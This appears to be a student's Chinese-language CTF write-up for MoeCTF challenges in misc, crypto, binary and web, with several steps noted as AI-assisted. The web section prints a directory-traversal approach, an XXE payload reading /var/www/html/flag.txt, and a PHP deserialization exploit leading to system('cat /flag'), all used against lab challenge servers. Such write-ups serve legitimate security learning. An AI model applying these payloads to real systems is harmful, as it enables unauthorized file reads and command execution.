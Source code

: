 # CTF WP (ZUENS2020)


## 安全杂项
- Misc入门指北 ✅
    - 附件PDF中的隐藏字段
- ez_LSB ✅
    - 使用StegSolve
    ![StegSolve]
- SSTV ✅
    ![SSTV]
- 掐住一只耳 ✅
    - 使用Audacity可以发现左声道的摩斯电码
    ![moss]
- Enchantment ✅
    - 使用tshark从enchantment.pcapng中找出图片-AI
    ![SGA]
    - 解开SGA银河字母[https://www.dcode.fr/standard-galactic-alphabet]
- ez_png ✅
    - 理解 PNG 文件结构:    -AI
       PNG 格式由一连串 chunk（数据块）组成，每个 chunk 包括：
      | 4字节长度 | 4字节块类型 | 数据区 | 4字节CRC |
      常见的块类型：
        IHDR：文件头信息（宽度、高度、颜色类型等）
        IDAT：图像压缩数据，可有多个
        IEND：文件尾标识
    - 使用工具查看chunk[https://www.nayuki.io/page/png-file-chunk-inspector]
    - 发现可疑块
    ![chunk]
    - 解码899 007部分 -AI
    ![Zlib]

## 从此开始
- 签到 ✅

## 二进制漏洞审计
- 0 二进制漏洞审计入门指北 ✅
- 1 ez_u64 ✅
- 2 EZtext
- fmt
- randomlock
- str_check
- syslock
- easylibc
- fmt_S

## 密码学
- Crypto入门指北 ✅
- ez_DES ✅
- baby_next ✅
- ez_square ✅
- ezlegendre ✅

## 逆向工程
- 逆向工程入门指北
- upx
- ez3
- flower
- A cup of tea
- mazegame

## Web安全与渗透测试
- 0 Web入门指北 ✅
    - 把附件中的代码复制到控制台中获得flag 
- 01 第一章 神秘的手镯 ✅
    - 查看页面源代码发现
    ```
    <script src="shouzhuo.js"></script>
    ```
    - 打开shouzhuo.js发现
    ```
    <div class="flag">moectf{f_i2_1s_Your_g00d_fri3nd!!}</div>
    ```
    - 得到flag
- 02 第二章 初识金曜玄轨 ✅
    - 通过Wireshark分析
    - 在对/golden_trail的http包进行分析后发现
    ```
    /golden_trail/flag
    ```
    - 得到flag
- 03 第三章 向剑石！算天攻击! ✅
    - 使用burpsuit修改测试请求
    ```
    POST /test_talent?level=S HTTP/1.1
    Host: 127.0.0.1:11055
    Content-Length: 24
    Content-Type: application/json
    Accept: */*
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9
    Connection: keep-alive
    Origin: http://127.0.0.1:11055
    Referer: http://127.0.0.1:11055/
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Sec-Ch-Ua-Platform: "Windows"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

    {"manifestation":"flowing_azure_clouds"}
    ```
    - 得到flag
- 05 第五章 打上门来! ✅
    - （本题有后面题目的提示）
    - 使用../访问文件目录    ------询问AI
    - 阅读index.php了解逻辑
    ```
    <!-- 上级目录链接 -->
    <?php if ($target !== './' && $target !== '/' && $target !== ''): ?>
        <tr>
            <td class="folder-cell" onclick="navigateTo(
                '<?php echo dirname($target) === '.' ? './' : dirname($target); ?>'
            )">
                <i class="fas fa-level-up-alt"></i> ..
            </td>
            <td>上级信标库</td>
        </tr>
    <?php endif; ?>

    <!-- 实际文件系统中的内容 -->
    <?php
    $entries = scandir($now_target);
    foreach ($entries as $entry):
        if ($entry === '.' || $entry === '..') continue;
        $fullPath = rtrim($target, '/') . '/' . $entry;
        $judgePath = rtrim($now_target, '/') . '/' . $entry;
        if (is_dir($judgePath)):
    ```
    - 尝试使用../../进入根目录，得到flag
- Moe笑传之猜猜爆 ✅
- 04 第四章 金曜极禁与七绝伶俐阵
- 06 第六章 藏经禁地？玄机初探!
- 07 第七章 灵媒妖穴与阴阳双生符
- 08 第八章 天行真言，星图显圣
- 10 第十章 天机符阵 ✅
    - 输入内容发现报错信息特点，使用题目已知元素
    ```xml
    <?xml version="1.0"?> 
    <!DOCTYPE 阵枢 [ 
        <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
    ]>
    <阵枢>
        &lt;解析>&xxe;&lt;/解析>
    </阵枢>
    ```
    - 尝试使用 <阵枢> 作为根元素，<解析> 作为包含实体引用的子元素。-----AI
- 19 第十九章 星穹真相·补天归源 ✅
    - 观察页面发现题目是一段PHP代码
    - 发现核心漏洞：unserialize($_GET['person']) ----AI
    - 漏洞可以执行用户输入的内容
    - 在 PersonC::__Check() 方法中，绕过 flag 检查，并利用其中的 $name($age) 最终执行 system('cat /flag') ----AI



[StegSolve]:https://cdn.luogu.com.cn/upload/image_hosting/edtwi6vn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SSTV]:https://cdn.luogu.com.cn/upload/image_hosting/u4kcc7iv.png

[moss]:https://cdn.luogu.com.cn/upload/image_hosting/2k7ni7yn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SGA]:https://cdn.luogu.com.cn/upload/image_hosting/082kb65a.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[chunk]:https://cdn.luogu.com.cn/upload/image_hosting/bw3glndu.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[Zlib]:https://cdn.luogu.com.cn/upload/image_hosting/s1by0js1.png